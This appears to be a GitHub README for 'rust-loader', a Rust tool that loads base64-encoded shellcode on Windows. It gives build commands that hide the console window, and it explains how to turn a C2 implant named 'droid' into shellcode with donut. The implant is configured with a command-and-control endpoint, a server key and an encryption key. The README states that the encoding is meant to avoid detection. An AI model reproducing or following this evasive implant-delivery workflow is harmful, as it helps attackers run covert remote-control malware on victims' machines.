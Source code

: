 # rust-loader
A simple windows binary loader, written in rust

The shellcode has to be put in the src/payload.b64 file.

shell is base64 encoded to prevent donut detection

## To build : 

Win x86
```shell
cargo build --target i686-pc-windows-gnu --release --features no_console
```
Win x64
```shell
cargo build --target x86_64-pc-windows-gnu --release --features no_console
```


## Generate payload : 
```shell
cross build --target x86_64-pc-windows-gnu --release --features no_console --config "env.ENDPOINT.value='https://192.168.48.128'" --config "env.C2_SERVER_KEY.value='MXlPZEVWWGVmN2xqbnpyUg=='" --config "env.LITCRYPT_ENCRYPT_KEY.value='thisisadeploymentkey'"
```
```shell
/opt/donut/donut -i /mnt/Share/Projects/Rust/Droid/target/x86_64-pc-windows-gnu/release/droid.exe -f 2 -a 2 -o /mnt/Share/Projects/Rust/rust-loader/src/payload.b64
```